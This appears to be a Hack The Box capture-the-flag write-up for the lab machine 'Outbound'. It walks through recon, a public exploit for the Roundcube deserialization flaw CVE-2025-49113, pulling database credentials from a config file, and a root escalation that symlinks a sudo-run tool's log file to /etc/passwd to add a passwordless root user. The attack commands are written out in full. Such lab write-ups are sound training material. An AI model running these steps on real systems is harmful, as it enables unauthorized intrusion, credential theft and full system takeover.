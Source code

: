 ```yaml
---
title: Hack The Box - Outbound (2025) Writeup
date: 2025-07-16 12:00:00
categories:
  - HackTheBox
  - Writeups
tags:
  - Outbound
  - CVE-2025-49113
  - Linux
  - Privilege Escalation
  - Symlink Attack
---
```


# Outbound (Hack The Box) - 2025

A step-by-step writeup for the Hack The Box machine "Outbound" (2025). This box involved web exploitation, database discovery, and a creative privilege escalation using a symlink attack.

---

## Recon

Initial Nmap scan:

```bash
nmap -A 10.10.11.77
```

Results:
```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

- Only SSH and HTTP are open.
- The web server is running nginx on Ubuntu.

---

## Web Exploitation (CVE-2025-49113 - Roundcube RCE)

After browsing the web service, I discovered a Roundcube Webmail instance. Research revealed a recent RCE vulnerability:

- **CVE-2025-49113**: Authenticated Remote Code Execution via deserialization in Roundcube 1.5.0-1.6.10.

### Exploit Steps

1. Used valid credentials to log in to Roundcube.
2. Ran the public exploit:

```bash
php CVE-2025-49113.php http://outbound.htb/roundcube/ <username> <password> "id"
```

3. Gained remote code execution as the web server user.

---

## Database Discovery

With RCE, I explored the server and found the Roundcube config:

```
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

- Used these credentials to access the MySQL database.
- Enumerated tables:
  - users, session, contacts, etc.

---

## Privilege Escalation (Symlink Attack with below)

After getting a shell as user `jacob`, I checked for sudo privileges:

```bash
sudo -l
```

Found:
```
jacob can run /usr/bin/below as root without a password.
```

### The Exploit

- The `below` tool writes logs to `/var/log/below/error_root.log`, which is world-writable.
- By deleting the log and symlinking it to `/etc/passwd`, I could overwrite the password file.

#### Steps:

```bash
echo 'pwn::0:0:pwn:/root:/bin/bash' > /tmp/fakepass
rm -f /var/log/below/error_root.log
ln -s /etc/passwd /var/log/below/error_root.log
sudo /usr/bin/below
cp /tmp/fakepass /var/log/below/error_root.log
su pwn
```

- This created a new root user (`pwn`) with no password.
- Switched to root and grabbed the flag:

```bash
cat /root/root.txt
```

---

## Summary

- **Recon**: Found HTTP/SSH, discovered Roundcube.
- **Web Exploitation**: Used CVE-2025-49113 for RCE.
- **Database**: Extracted credentials from config.
- **Privilege Escalation**: Symlinked log to `/etc/passwd` via `below` for root.

---

> This writeup is for educational purposes only. Do not attempt these techniques on systems you do not own or have explicit permission to test. 